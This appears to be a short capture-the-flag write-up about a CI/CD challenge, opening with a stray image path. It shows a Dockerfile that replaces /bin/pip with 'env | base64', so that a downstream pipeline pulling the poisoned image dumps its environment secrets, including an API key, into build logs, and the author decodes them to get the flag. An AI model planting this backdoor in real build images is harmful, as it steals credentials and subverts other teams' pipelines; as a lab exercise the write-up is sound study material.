 ```dockerfile
RUN touch /etc/localtime

RUN echo "Europe/Rome" >> /etc/localtime

RUN playwright install

RUN playwright install-deps

CMD [ "echo", "running tests" ]
```

This fails the pipeline as it does not have internet access and therefore cannot update. Instead we an do the following:

Overwrite pip:
```dockerfile
FROM registry.devops.hkn/ubuntu:20.04

RUN echo "env | base64" > /bin/pip
RUN chmod +x /bin/pip
```

Go to drone > New build on Icecrown > Pushes the new image > Wait for Ulduar to pull it again (every 2 min)

Go to logs of successfull Ulduar pipeline run > Under test we will find env as a base64 string. Decoding this gets us:
``API_KEY=DDC{B4CKD00R_1N_TH3_BU1LD}``

And we have our flag!

``DDC{B4CKD00R_1N_TH3_BU1LD}``